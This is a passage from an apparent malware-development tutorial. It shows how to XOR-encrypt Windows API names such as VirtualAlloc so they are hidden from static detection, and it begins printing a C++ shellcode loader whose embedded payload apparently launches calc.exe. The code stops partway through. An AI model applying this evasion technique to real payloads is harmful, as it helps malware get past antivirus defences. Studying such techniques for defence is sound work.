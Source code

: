as you can see it is here. The reason is that we are using the stream in cleartext when we are calling `GetProcAddress`.    

So what we can do about it?   
The way is we can remove that. We can used XOR function for encrypt/decrypt, we used before, so let's do that.
Firstly, add XOR function to our `evil.cpp` malware source code:    

![add XOR](/assets/images/3/2021-09-06_17-35.png){:class="img-responsive"}

For that we will need encryption key and some string. And let's say string as `cVirtualAlloc` and modify our code:     
![add key](/assets/images/3/2021-09-07_01-09.png){:class="img-responsive"}

add XOR decryption:    
![deXOR](/assets/images/3/2021-09-06_17-52.png){:class="img-responsive"}

So, the final version of our malware code is:    
```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//   LPVOID lpAddress,
```